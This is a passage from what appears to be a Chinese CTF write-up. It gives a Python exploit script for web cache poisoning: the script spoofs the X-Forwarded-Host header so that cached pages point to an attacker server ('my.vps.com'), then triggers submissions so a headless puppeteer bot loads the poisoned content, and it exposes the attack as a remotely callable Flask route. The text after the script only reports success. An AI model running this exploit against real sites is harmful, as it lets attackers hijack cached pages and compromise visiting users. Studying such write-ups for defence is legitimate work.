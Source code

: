 ```python

# 恶意服务地址
my_vps = "my.vps.com"

# 获取当前id
def get_current_id():
    url = f"{base_url}/message/{random.randint(1000, 10000)}"
    r = requests.get(url)
    return r.json().get("count")

# 生成恶意缓存
def make_cache(id_):
    url = f"{base_url}/letters?id={id_}"
    headers = {
        "host": "127.0.0.1",
        "X-Forwarded-Host": my_vps
    }
    r = requests.get(url, headers=headers)
    if re.search(headers.get("X-Forwarded-Host"), r.text):
        print(f"[*] make {id_} cache success")


# 触发缓存
def hack():
    current_id = get_current_id()
    next_id = current_id + 1
    print(f"next_id: {next_id}")
    make_cache(next_id)
    print("[*] start")
    url = f"{base_url}/submit"
    data = {
        "message": "1"
    }
    requests.post(url, json=data)

# 写成服务方便调用
@app.route("/start")
def start():
    hack()
    return ""
```

## 0x05 hacker

这个时候只要把服务开启来，然后访问http://my.vps.com/start，就可以生成恶意缓存然后让puppeteer中毒。

成功拿下！

![8.png](8.png)

## 0x06 总结
